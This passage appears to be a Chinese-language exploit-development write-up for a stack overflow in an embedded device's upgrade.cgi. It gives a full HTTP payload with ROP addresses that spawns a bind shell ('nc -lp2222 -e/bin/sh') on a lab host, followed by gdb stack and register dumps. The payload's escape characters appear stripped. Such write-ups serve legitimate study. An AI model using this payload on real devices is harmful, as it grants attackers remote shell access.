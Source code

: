 exp虽然写好了，但不知道哪里出现了点错误，运行的时候不能反弹一个shell出来。但尝试直接输入payload的时候就可以达到目的。

payload：echo -en "POST /cgi-bin/admin/upgrade.cgi HTTP/1.0nContent-Length:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaax84x57xf7x76x94xebxffx7exa4x3axf4x76aaaaaaaaxb0x4axf7x76nc -lp2222 -e/bin/sh >nrnrn" | nc -v 10.10.10.2 80

用gdbserver来调试一下看看过程。把断点下在返回地址的位置，0x18398。

	.text:00018394 ADD SP, SP, #0x2C
	.text:00018398 LDMFD SP!, {R4-R11,PC}

运行查看当前栈环境。

	gdb-peda$ b *0x18398
	Breakpoint 1 at 0x18398
	gdb-peda$ c
	Continuing.
	Python Exception <type 'exceptions.AttributeError'> 'module' object has no attribute 'objfiles':
	Breakpoint 1, 0x00018398 in ?? ()
	gdb-peda$ i reg
	r0 0x1 0x1
	r1 0x46058 0x46058
	r2 0x0 0x0
	r3 0x9f 0x9f
	r4 0x45058 0x45058
	r5 0x9f 0x9f
	r6 0x4c058 0x4c058
	r7 0x485d2 0x485d2
	r8 0x485d1 0x485d1
	r9 0x485d2 0x485d2
	r10 0x323a0 0x323a0
	r11 0x0 0x0
	r12 0x1 0x1
	sp 0x7effeb5c 0x7effeb5c
	lr 0x18474 0x18474
	pc 0x18398 0x18398
	cpsr 0x60000010 0x60000010
	fpscr 0x0 0x0
	gdb-peda$ x/64 0x7effeb5c
	0x7effeb5c: 0x61616161 0x61616161 0x61616161 0x61616161
	0x7effeb6c: 0x61616161 0x61616161 0x61616161 0x61616161
	0x7effeb7c: 0x76f75784 0x7effeb94 0x76f43aa4 0x61616161
	0x7effeb8c: 0x61616161 0x76f74ab0 0x2d20636e 0x3232706c
	0x7effeb9c: 0x2d203232 0x69622f65 0x68732f6e 0x7eff3e20
	0x7effebac: 0x7472 0x3 0x4 0x0
	0x7effebbc: 0x3 0x0 0x4 0x0
	0x7effebcc: 0x2 0x3e4e2 0x0 0x0
	0x7effebdc: 0x0 0x0 0x0 0x0
	0x7effebec: 0x0 0x0 0x0 0x0
	0x7effebfc: 0x0 0x6f6f722f 0x65732f74 0x69727563
	0x7effec0c: 0x722f7974 0x72656665 0x522f7265 0x63784563
	0x7effec1c: 0x69747065 0x6f486e6f 0x692f7473 0x616e2f32
	0x7effec2c: 0x656d 0x0 0x0 0x0
	0x7effec3c: 0x0 0x0 0x0 0x0
	0x7effec4c: 0x0 0x0 0x0 0x0
	gdb-peda$ x/s 0x7effeb94
	0x7effeb94: "nc -lp2222 -e/bin/sh >377~rt"
